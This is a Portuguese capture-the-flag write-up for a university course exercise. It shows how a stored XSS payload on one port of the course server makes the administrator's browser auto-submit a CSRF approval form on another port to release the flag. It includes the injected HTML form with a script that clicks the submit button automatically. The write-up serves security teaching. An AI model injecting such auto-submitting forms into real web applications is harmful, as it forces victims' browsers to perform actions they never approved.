






# CTF Semana #6 (XSS + CSRF)

## Pistas

De modo a realizar este CTF, foram-nos fornecidas algumas pistas:

- Na porta 5004 do servidor ctf-fsi.fe.up.pt encontra-se um servidor no qual poderemos fazer um pedido ao administrador para que este nos dê acesso à flag.
- O administrador aceitará o nosso pedido através da porta 5005 onde se encontram dois botões: um para aceitar o pedido e outro para rejeitar. Estes botões encontram-se desativados para nós.
- A nossa página dá refresh de 5 em 5 segundos e a resposta do administrador pode demorar até 2 minutos.

Para além deste contexto também nos são fornecidas duas dicas muito importantes relativas às técnicas que devemos usar para resolver este CTF:

> - `Cross-site Scripting`: consiste em injectar código em input do utilizador. Explora as páginas web como um utilizador comum e descobre que input podes controlar.
> - `Cross-site Request Forgery`: consiste em, numa página com uma dada origem, fazer pedidos a uma página numa origem diferente. Explora que diferentes páginas existem e que pedidos desejas executar.

## Servidor

Ao entrar no servidor somos recebidos com a seguinte página:


Esta página possui uma entrada de texto que, após submissão nos leva à seguinte página:



Esta página é a página que dá refresh de `5s em 5s` tornando-se difícil verificar o seu **HTML** ou os pedidos que faz. No entanto, e tendo em conta as pistas fornecidas, começamos a perceber que o input da primeira página provavelmente será o local onde deveremos fazer a nossa injeção de código.

A segunda página possui um botão que nos permite chegar à página do administrador:



Esta página possui, tal como referia a pista, dois botões que se encontram desativados para nós. Verificando o **HTML** desta página conseguimos ver o pedido que cada um dos botões faz:

```html
<form
  method="POST"
  action="/request/b2a22357fbd231437b8875c71dedb9ddebb535f1/approve"
  role="form"
>
  <div class="submit">
    <input type="submit" id="giveflag" value="Give the flag" disabled="" />
  </div>
</form>
```

Verificamos rapidamente que o botão que nos interessa é o primeiro, uma vez que é este que emite um método post que aceita o nosso pedido. Se tentarmos executar este pedido manualmente aparece-nos a seguinte página:



## Ataque

Sendo o nosso objetivo que o administrador emita o método post que aceita o nosso id atual, podemos fazê-lo inserindo um form semelhante ao que se encontra na **porta 5005** na página inicial da **porta 5004**. O form que nós fizemos foi o seguinte:

```html
<form
  method="POST"
  action="http://ctf-fsi.fe.up.pt:5005/request/2d4cd430aa921d7a0ab7e0ab976d1e978a58dbe8/approve"
  role="form"
>
  <div class="submit">
    <input type="submit" id="giveflag" value="Give the flag" />
  </div>
  <script>
    document.getElementById("giveflag").click();
  </script>
</form>
```

As alterações que fizemos ao form original consistiram em remover o atributo `disabled` do botão de `submit` e adicionámos um script que faz com que do lado do administrador o botão seja clicado automaticamente.
Deste modo o administrador emitirá o pedido pretendido.

---

Por fim, apenas temos mais um problema! A página para a qual somos redirecionados após a submissão no input possui o seguinte script (já referido anteriormente):

```html
<script>
  setTimeout(function () {
    window.location.reload();
  }, 5000);
</script>
```

Este script causa um refresh da página de `5s em 5s` causando assim um refresh do id válido do nosso pedido. De maneira a contornar este problema podemos **desativar o javascript do nosso browser**:



---

Posto isto, conseguimos finalmente obter a flag a partir dos seguintes passos:

1. Inserir o form na página inicial da porta 5004;
   

2. Após submeter o form no input, dar refresh manualmente à página uma vez que o nosso pedido foi aceite do lado do administrador;
   

3. A nossa flag aparece no ecrã!
   
